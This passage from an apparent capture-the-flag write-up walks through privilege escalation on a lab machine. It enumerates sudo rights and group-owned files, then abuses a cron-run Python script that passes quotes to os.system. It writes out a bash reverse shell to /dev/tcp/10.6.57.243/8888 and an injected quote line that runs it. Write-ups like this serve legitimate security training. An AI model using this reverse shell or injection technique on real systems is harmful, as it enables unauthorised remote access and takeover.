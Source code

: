 ```bash
sudo -l
```
**Results**
```
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

I played around with bees and searched gtfobins but no dice. 
Lets keep looking
Let's have a look at other groups weston is in
```bash
id
```
**Results**
```
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```

cage, that's a weird group. Let's see if groups gives us any more file permissions
```bash
find / -type f -group cage 2>/dev/null
```
**Results**
```
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```
It looks like spread_the_quotes.py is running every 2 minutes. Perhaps we can swap out a quote for a shell script

**spread_the_quotes.py**
``` 
!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

oh. os.system is super easy to inject. All we need to do is end the wall string input with a ";" and then tell os.system to execute another file.

let's create the file and then update .quotes fr our injection

```bash
cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.6.57.243/8888 0>&1
EOF
chmod +x /tmp/shell.sh
printf 'Cage is king;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
```
